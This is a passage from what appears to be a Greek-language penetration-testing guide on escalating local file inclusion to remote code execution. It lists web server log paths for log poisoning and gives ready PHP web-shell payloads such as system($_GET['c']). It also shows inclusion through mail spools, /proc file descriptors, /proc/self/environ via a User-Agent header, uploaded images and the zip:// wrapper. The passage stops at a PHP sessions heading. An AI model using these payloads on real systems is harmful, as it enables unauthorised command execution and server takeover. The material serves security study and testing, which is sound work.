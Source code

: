 Αυτό θα μπορούσε επίσης να γίνει σε άλλα αρχεία καταγραφής αλλά **προσοχή,** ο κώδικας μέσα στα αρχεία καταγραφής θα μπορούσε να είναι URL encoded και αυτό θα μπορούσε να καταστρέψει το Shell. Η κεφαλίδα **authorisation "basic"** περιέχει "user:password" σε Base64 και αποκωδικοποιείται μέσα στα αρχεία καταγραφής. Το PHPShell θα μπορούσε να εισαχθεί μέσα σε αυτή την κεφαλίδα.\
Άλλες πιθανές διαδρομές αρχείων καταγραφής:
```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```
Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Μέσω Email

**Στείλτε ένα email** σε έναν εσωτερικό λογαριασμό (user@localhost) που περιέχει το PHP payload σας όπως `<?php echo system($_REQUEST["cmd"]); ?>` και προσπαθήστε να το συμπεριλάβετε στο email του χρήστη με μια διαδρομή όπως **`/var/mail/<USERNAME>`** ή **`/var/spool/mail/<USERNAME>`**

### Μέσω /proc/\*/fd/\*

1. Ανεβάστε πολλές shells (για παράδειγμα: 100)
2. Συμπεριλάβετε [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), με $PID = PID της διαδικασίας (μπορεί να βρεθεί με brute force) και $FD τον file descriptor (μπορεί επίσης να βρεθεί με brute force)

### Μέσω /proc/self/environ

Όπως ένα αρχείο καταγραφής, στείλτε το payload στο User-Agent, θα ανακλαστεί μέσα στο αρχείο /proc/self/environ
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```
### Μέσω ανέβασμα

Αν μπορείτε να ανεβάσετε ένα αρχείο, απλά εισάγετε το shell payload σε αυτό (π.χ : `<?php system($_GET['c']); ?>` ).
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
Για να διατηρηθεί το αρχείο αναγνώσιμο, είναι καλύτερο να εισάγετε στα μεταδεδομένα των εικόνων/doc/pdf

### Μέσω ανέβασμα αρχείου Zip

Ανεβάστε ένα αρχείο ZIP που περιέχει ένα συμπιεσμένο PHP shell και αποκτήστε πρόσβαση:
```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
### Via PHP sessions
